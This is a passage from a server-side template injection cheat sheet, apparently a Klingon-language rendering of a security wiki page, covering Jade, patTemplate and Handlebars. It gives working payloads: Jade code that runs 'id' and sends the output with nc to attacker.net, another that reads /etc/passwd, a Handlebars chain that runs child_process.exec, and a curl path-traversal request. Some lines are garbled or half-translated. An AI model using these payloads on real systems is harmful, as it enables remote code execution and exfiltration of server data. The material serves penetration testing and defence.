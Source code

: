### Jade (NodeJS)
```javascript
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
**Qapla'!**

* Jade qutlh [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection) Daq
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)

### patTemplate (PHP)

> [patTemplate](https://github.com/wernerwa/pat-template) non-compiling PHP templating engine, XML tags vItlhutlh document vItlhutlhbe'ghach.
```xml
<patTemplate:tmpl name="page">
This is the main page.
<patTemplate:tmpl name="foo">
It contains another template.
</patTemplate:tmpl>
<patTemplate:tmpl name="hello">
Hello {NAME}.<br/>
</patTemplate:tmpl>
</patTemplate:tmpl>
```
**Qapla'!**
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate)

### Handlebars (NodeJS)

Path Traversal (more info [here](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)).
```bash
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'
```
* \= Qagh
* ${7\*7} = ${7\*7}
* Pagh
```java
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
```